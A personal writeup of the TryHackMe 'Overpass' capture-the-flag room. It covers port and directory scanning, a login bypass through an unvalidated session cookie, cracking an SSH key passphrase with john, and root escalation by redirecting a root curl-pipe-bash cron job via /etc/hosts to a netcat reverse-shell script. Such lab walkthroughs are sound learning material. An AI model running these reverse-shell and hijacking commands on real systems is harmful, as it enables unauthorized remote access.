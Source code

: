 ```yaml
---
layout: default
---
```

# Overpass Writeup

This is my writeup for the room [Overpass](https://tryhackme.com/room/overpass) in tryhackme. Hope it helps you :D

## Enumeration

First we'll start scanning ports with nmap.

```
nmap -A -sC -v <MACHINE_IP>
```

![Nmap Results](/assets/images/overpass/nmap-results.png)

Okay, we have ssh and a web server running, lets take a look at the website.

The web server is running the site Overpass where you can download the source code of their password manager and see information about them, i couldn't find anything looking at the source code of the pages so i went on to scan the directories of the site.

![Gobuster Results](/assets/images/overpass/gobuster-results.png)

Oh look, a /admin directory, thats certainly interesting, it is a login page.

## Broken Authentication

Okay, in this part i got a litte bit stuck, i tried sql injection, tried a little bit of brute forcing with the names in the aboutus page, read over and over the password manager source code and the javascript files.

I was frustrated thinking to myself that just when i thought i was getting the hang in penetration testing i couldn't even do an easy room. So i started trying things that in my head made no sense but screw it.

So let's take a look in the login.js file.

![login.js](/assets/images/overpass/login.js.png)

This login function sends a post request to /api/login and if the credentials are correct, it stores a cookie called SessionToken.

Then i set the cookie SessionToken in my browser with a random value... And it worked.

Okay, when it worked it didn't made a lot of sense to me, i thought "who in their right minds would just check if a cookie is set and not validate it to let the user log in", thats when i went to see some small web apps i made in the past and saw that this is probably more common than i thought.

But okay, now we see this beautiful page.

![Admin Page](/assets/images/overpass/admin-page.png)

## Enter the machine with SSH

Poor james can't remember his password, and now we have his SSH key. Lets try lo login in ssh with it.

![SSH Login Try](/assets/images/overpass/ssh-login-try.png)

It needs a password so we'll bruteforce it.

I used john the ripper to crack it because i dont know another way to do it, so first we use ssh2john to get the hash of the password.

![ssh2john](/assets/images/overpass/ssh2john.png)

And then i use john to crack the hash.

![password](/assets/images/overpass/pass.png)

Now we log in the machine and there is the first flag.

![user.txt](/assets/images/overpass/user.txt.png)

## Privilege escalation

Okay, first things first lets read this todo.txt file, okay, in the file james says something about storing his password in their password manager so i searched for an overpass file and i found it in /usr/bin/overpass and executing it we can get james password, but it doesnt help us with privilege escalation.

The interesting part of the todo.txt file is where it says something about an automated build script, so i decided to check /etc/crontab and over there i found this.

```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

This executes the script located on overpass.thm/downloads/src/buildscript.sh every minute as root, interesting ...

So i ran linpeas on the machine and it show that there is a interesting file that we have the privileges to write.

![linpeas](/assets/images/overpass/linpeas.png)

When i saw this i found it suuuper cool, i loved the idea of using /etc/hosts file to change the webserver that the machine will send a request.

So i went back to my machine and made the file downloads/src/buildscript.sh and inside the file i used a reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
mkdir downloads
mkdir downloads/src
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_VPN_IP> 1234 >/tmp/f" > downloads/src/buildscript.sh
```

Then i started a python webserver on my machine.

```
sudo python3 -m http.server 80
```

In another terminal i started a netcat listener on port 1234

```
nc -lvnp 1234
```

And then in the remote machine i edited the /etc/hosts and changed the ip of overpass.thm to the ip of my machine.

![/etc/hosts](/assets/images/overpass/hosts.png)

Now we wait until the script gets executed and we can get a reverse shell as root.

![root.txt](/assets/images/overpass/root.txt.png)

And there we have it, the root flag.

This is my first writeup and i hope it helps you that is reading it, i had a lot of fun doing this room and wanted thanks [James](https://tryhackme.com/p/NinjaJc01) for doing it because his rooms are awesome :DD